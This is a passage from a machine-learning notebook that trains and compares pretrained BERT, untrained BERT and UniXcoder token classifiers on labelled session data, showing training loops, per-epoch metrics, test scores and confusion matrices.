epoch 4: {'token_accuracy': 0.707145047531432, 'token_f1': 0.3081905010483811}
epoch 5: {'token_accuracy': 0.7669426556271083, 'token_f1': 0.35781304889774007}
epoch 6: {'token_accuracy': 0.80098129408157, 'token_f1': 0.404603109037937}
epoch 7: {'token_accuracy': 0.8419196565470715, 'token_f1': 0.46054259823258137}
epoch 8: {'token_accuracy': 0.8480527445568844, 'token_f1': 0.48523924347962083}
epoch 9: {'token_accuracy': 0.8069610548911377, 'token_f1': 0.4806831798831856}
epoch 10: {'token_accuracy': 0.8302667893284269, 'token_f1': 0.49504997300598397}
epoch 11: {'token_accuracy': 0.8652253909843606, 'token_f1': 0.515950725780538}
epoch 12: {'token_accuracy': 0.8354799



In [30]:


plot_stats("BERT", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

In [31]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Bert - Pretrained": test_metrics})

In [32]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")

The best model has been changed: google-bert/bert-base-uncased, 0.30224233865737915




In [33]:
f1_results.update({"Bert Pretrained":plot_per_class_f1(full_predictions, full_labels, id2label)})

In [34]:
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall","token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")


token_accuracy      :  83.11%
token_f1            :  54.20%
token_precision     :  50.60%
token_recall        :  66.95%
token_fidelity      :  83.60%






array([[0.75028857, 0.03847634, 0.00538669, 0.11831474, 0.03712967,
        0.03078107, 0.01962293],
       [0.02715759, 0.90742917, 0.02258781, 0.00940071, 0.00535318,
        0.0097924 , 0.01827915],
       [0.        , 0.05660377, 0.92739951, 0.01599672, 0.        ,
        0.        , 0.        ],
       [0.63888889, 0.03703704, 0.        , 0.31746032, 0.        ,
        0.00661376, 0.        ],
       [0.08275862, 0.        , 0.        , 0.        , 0.89655172,
        0.02068966, 0.        ],
       [0.        , 0.0875    , 0.025     , 0.        , 0.        ,
        0.8875    , 0.        ],
       [0.        , 1.        , 0.        , 0.        , 0.        ,
        0.        , 0.        ]])

In [35]:


compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Bert not pretrained

In [36]:
free_cuda_memory()
config = AutoConfig.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label, # Notice that we are also providing the mapping from ids to labels
    label2id=label2id, # And viceversa
)
# Then initialize the model with random weights using the configuration
model = AutoModelForTokenClassification.from_config(config)
LR = 1e-5
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)
num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)
best_val_loss, best_epoch = np.inf, 0
best_model_local = deepcopy(model)
model = model.to(device)
model.device

CUDA memory freed.


device(type='cuda', index=0)

In [37]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.5873965041398344, 'token_f1': 0.18621176059490513}
epoch 1: {'token_accuracy': 0.5588776448942042, 'token_f1': 0.16317642156150722}
epoch 2: {'token_accuracy': 0.6168353265869365, 'token_f1': 0.21956330293048812}
epoch 3: {'token_accuracy': 0.671113155473781, 'token_f1': 0.2839869116067348}
epoch 4: {'token_accuracy': 0.6600735970561178, 'token_f1': 0.2665078518237897}
epoch 5: {'token_accuracy': 0.6913523459061638, 'token_f1': 0.2912592725406426}
epoch 6: {'token_accuracy': 0.666819993866912, 'token_f1': 0.27186150409556537}
epoch 7: {'token_accuracy': 0.6631401410610243, 'token_f1': 0.27722429986806885}
epoch 8: {'token_accuracy': 0.6781662066850659, 'token_f1': 0.32368912442174663}
epoch 9: {'token_accuracy': 0.6996320147194113, 'token_f1': 0.32309696405032823}
epoch 10: {'token_accuracy': 0.6944188899110703, 'token_f1': 0.36608746308052875}
epoch 11: {'token_accuracy': 0.7166513339466422, 'token_f1': 0.3986299037787061}
epoch 12: {'token_accuracy': 0.7



In [38]:
plot_stats("BERT not pretrained", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

token_accuracy      :  76.93%
token_f1            :  49.91%
token_precision     :  46.62%
token_recall        :  62.42%
token_fidelity      :  77.98%




In [39]:

# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Bert not Pretrained": test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")

f1_results.update({"Bert not Pretrained": plot_per_class_f1(full_predictions, full_labels, id2label)})

In [40]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")





array([[0.69929682, 0.09992598, 0.01517395, 0.09474463, 0.05144338,
        0.03293856, 0.00647668],
       [0.05643577, 0.84012047, 0.06259002, 0.0107372 , 0.00654707,
        0.00680896, 0.01676051],
       [0.06979695, 0.11463621, 0.79906937, 0.00634518, 0.00253807,
        0.00338409, 0.00423012],
       [0.33385335, 0.11076443, 0.        , 0.50546022, 0.0124805 ,
        0.00312012, 0.03432137],
       [0.16666667, 0.        , 0.        , 0.22916667, 0.45833333,
        0.14583333, 0.        ],
       [0.00862069, 0.19827586, 0.12931034, 0.0862069 , 0.        ,
        0.57758621, 0.        ],
       [0.05208333, 0.33333333, 0.        , 0.125     , 0.        ,
        0.        , 0.48958333]])

In [41]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Unixcoder

In [42]:
free_cuda_memory()
def tokenize_and_align_labels(samples):
    """Tokenizes text examples and aligns their labels with the resulting tokens.
    This function processes a batch of examples by:
    1. Tokenizing the text in 'sentences' field
    2. Converting word-level labels to token-level labels for each example
    3. Adding the aligned labels back to the tokenized inputs
    Args:
       examples (dict): Dictionary containing:
           - 'sentences': List of text sentences
           - 'labels_id': List of lists containing word-level tags for each command
    Returns:
       dict: Tokenized inputs with aligned labels:
           - Standard tokenizer outputs (input_ids, attention_mask, etc.)
           - 'labels': Token-level labels aligned with the tokenized inputs
    Notes:
       - Uses a pre-defined tokenizer (must be available in scope)
       - Sets is_split_into_words=True because input is already word-tokenized
       - Uses align_labels_with_tokens helper function to handle subword tokenization
    """
    # Remember: we need to split the sentences
    split_sentences = [sentence.split(" ") for sentence in samples['tr_session']]
    # Tokenize all examples in batch using the global tokenizer
    tokenized_inputs = tokenizer(
        split_sentences,
        truncation=True,  # Truncate to max length if needed
        is_split_into_words=True, # Input is already split into words
    )
    # Extract all tags_id lists from the examples
    all_tags = samples['label_id']
    new_labels = []
    # Process each example's labels individually
    for i, tags in enumerate(all_tags):
        # Get word ID mapping for the current example
        word_ids = tokenized_inputs.word_ids(i)
        # Convert word-level tags to token-level tags
        aligned_labels = align_labels_with_tokens(tags, word_ids)
        new_labels.append(aligned_labels)
    # Add the aligned labels to the tokenized inputs
    tokenized_inputs["labels"] = new_labels
    return tokenized_inputs
pretrained_model = "microsoft/unixcoder-base"
model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)
tokenizer = AutoTokenizer.from_pretrained(pretrained_model,add_prefix_space=True)
tokenized_datasets = encoded_dataset.map(
    tokenize_and_align_labels,
    batched=True, # Can be performed in batches, in order to speed up times!
    remove_columns=original_columns,# To remove the original columns
)
train_dataloader = DataLoader(
    tokenized_datasets["train"],
    shuffle=True,
    collate_fn=data_collator,
    batch_size=16
)
eval_dataloader = DataLoader(
    tokenized_datasets["valid"], collate_fn=data_collator, batch_size=16
)
test_dataloader = DataLoader(
    tokenized_datasets["test"], collate_fn=data_collator, batch_size=16
)

# Notice: model has already been pre-trained.
# We DO NOT WANT to ruin it! Just a "gentle touch" > keep your LR small!
LR = 1e-5
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)


num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)


CUDA memory freed.


config.json:   0%|          | 0.00/691 [00:00<?, ?B/s]

pytorch_model.bin:   0%|          | 0.00/504M [00:00<?, ?B/s]

Some weights of RobertaForTokenClassification were not initialized from the model checkpoint at microsoft/unixcoder-base and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Asking to truncate to max_length but no maximum length is provided and the model has no predefined maximum length. Default to no truncation.


Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

In [43]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses
TORCH_USE_CUDA_DSA = True
best_val_loss, best_epoch = np.inf, 0
best_model_local = deepcopy(model)
device = 'cuda'
model = model.to(device)
model.device

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

model.safetensors:   0%|          | 0.00/504M [00:00<?, ?B/s]

epoch 0: {'token_accuracy': 0.6146836313617606, 'token_f1': 0.19707028153873643}
epoch 1: {'token_accuracy': 0.6425378266850069, 'token_f1': 0.22040139868176817}
epoch 2: {'token_accuracy': 0.7145804676753783, 'token_f1': 0.30883212935079574}
epoch 3: {'token_accuracy': 0.7640990371389271, 'token_f1': 0.3508000828936123}
epoch 4: {'token_accuracy': 0.8088033012379643, 'token_f1': 0.38836508569260825}
epoch 5: {'token_accuracy': 0.8239339752407153, 'token_f1': 0.4498336504862489}
epoch 6: {'token_accuracy': 0.8428473177441541, 'token_f1': 0.4815924789553108}
epoch 7: {'token_accuracy': 0.8535075653370013, 'token_f1': 0.5453674935623961}
epoch 8: {'token_accuracy': 0.8466299862448419, 'token_f1': 0.5756218192026861}
epoch 9: {'token_accuracy': 0.8610729023383769, 'token_f1': 0.6169514370089066}
epoch 10: {'token_accuracy': 0.8829092159559835, 'token_f1': 0.60878064776762}
epoch 11: {'token_accuracy': 0.874656121045392, 'token_f1': 0.6451010316402631}
epoch 12: {'token_accuracy': 0.883081



In [44]:
plot_stats("UniXcoder", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

token_accuracy      :  85.74%
token_f1            :  67.42%
token_precision     :  63.85%
token_recall        :  78.91%
token_fidelity      :  86.58%




In [45]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Unixcoder":test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")
f1_results.update({"Unixcoder":plot_per_class_f1(full_predictions, full_labels, id2label)})

In [46]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")

The best model has been changed: microsoft/unixcoder-base, 0.28496667742729187


